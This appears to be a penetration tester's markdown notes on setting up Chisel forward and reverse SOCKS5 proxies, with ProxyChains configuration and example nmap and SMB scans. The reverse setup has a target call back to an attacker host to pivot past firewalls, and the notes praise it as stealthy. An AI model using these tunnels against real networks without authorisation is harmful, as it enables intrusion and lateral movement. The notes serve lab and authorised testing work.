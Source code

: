 ```yaml
---
dg-publish: true
---
```


## **Chisel Forward Proxy – Full Notes**


# 1. Chisel Forward SOCKS Proxy Setup

## 📌 Use Case
- When **you want to access** the remote machine (target) **directly via a SOCKS proxy**.
- The **target runs Chisel server**, and your **machine runs Chisel client**.
- You can only proxy into the machine **hosting the server**, not beyond it.

---

## 🛠️ Architecture

```mermaid
flowchart TD
    A["Attacker (Your Machine)"] -->|SOCKS5 Proxy| B
    B[Target Host<br>Chisel Server]
````

---

## **⚙️ Step-by-Step**
  

### **1. 🔥 On Target (Chisel Server)**

```
./chisel server --socks5 --port 8080
```

- Exposes a SOCKS5 proxy on port 8080
     

### **2. 🚀 On**  **Attacker (Chisel Client)**

```
./chisel client <target_ip>:8080 socks
```

- Sets up a local SOCKS5 proxy at 127.0.0.1:1080
    

---

## **🧩 ProxyChains Config**

```
strict_chain
proxy_dns
tcp_read_time_out 15000
tcp_connect_time_out 8000

[ProxyList]
socks5 127.0.0.1 1080
```

---

## **✅ Example Usage**

```
proxychains4 curl http://<target_ip>
proxychains4 nmap -sT -Pn <target_ip>
```

---

## **⚠️ Limitations**

|**Issue**|**Explanation**|
|---|---|
|No internal pivoting|You can only access the **Chisel server host**. Not useful for lateral movement.|
|You need target to run server|In many cases, you won’t be able to run a server on the target due to restrictions.|




# 🧠 **Chisel Reverse SOCKS Proxy – Full Notes**

# 2. Chisel Reverse SOCKS Proxy Setup

## 📌 Use Case
- When the **target cannot be accessed directly**, but can **make outbound connections**.
- Used for **pivoting**, **bypassing NAT/firewalls**, and reaching **internal networks**.
- **Attacker runs server**, **target runs client**.


## 🛠️ Architecture

```mermaid
flowchart TD
    target["Target Machine<br>(Chisel Client R:socks)"]
    attacker["Attacker Machine<br>(Chisel Server + ProxyChains)"]
    proxy[SOCKS5 Proxy at 127.0.0.1:1080]
    internal["Internal System<br>(Behind Target)"]

    target --> attacker
    attacker --> proxy --> internal
````

---

## **⚙️ Step-by-Step**

  

### **1. 🔥 On** Attacker (Chisel Server)**

```
./chisel server --reverse
```

- Listens on port 8080 by default
    
- Accepts reverse tunnels
    

  

### **2. 🚀 On**  **Target (Chisel Client)**

```
./chisel client <attacker_ip>:8080 R:socks
```

- Reverse SOCKS tunnel back to attacker
    
- Opens 127.0.0.1:1080 SOCKS proxy on attacker
    

---

## **🧩 ProxyChains Config (on Attacker)**
```

/opt/homebrew/etc/proxychains.conf
```


```
strict_chain
proxy_dns
tcp_read_time_out 15000
tcp_connect_time_out 8000

[ProxyList]
socks5 127.0.0.1 1080
```

---

## **✅ Example Usage**

```
proxychains4 nxc smb 10.10.10.X
proxychains4 nmap -sT -Pn 10.10.10.X
```

---

## **✅ Advantages**

| **Feature**                 | **Benefit**                                                |
| --------------------------- | ---------------------------------------------------------- |
| Works through firewalls/NAT | Target just needs outbound TCP                             |
| Enables lateral movement    | You can access internal systems behind the target          |
| Stealthier                  | Harder to detect than binding ports or exposing web shells |

---



## **✅ Key Differences Between SOCKS4 and SOCKS5**

|**Feature**|**SOCKS4**|**SOCKS5**|
|---|---|---|
|**Protocol Type**|TCP only|TCP + UDP|
|**Authentication Support**|No|Yes (username/password or GSSAPI)|
|**Remote DNS Support**|❌ DNS resolved _locally_|✅ DNS resolved _through proxy_|
|**IPv6 Support**|No|Yes|
|**Security**|No built-in security|Can support auth/encryption layers|
|**ProxyChains Compatibility**|Supported|Recommended (with proxy_dns)|
|**Typical Use Cases**|Basic proxying, older tools|Modern tools, secure tunneling|

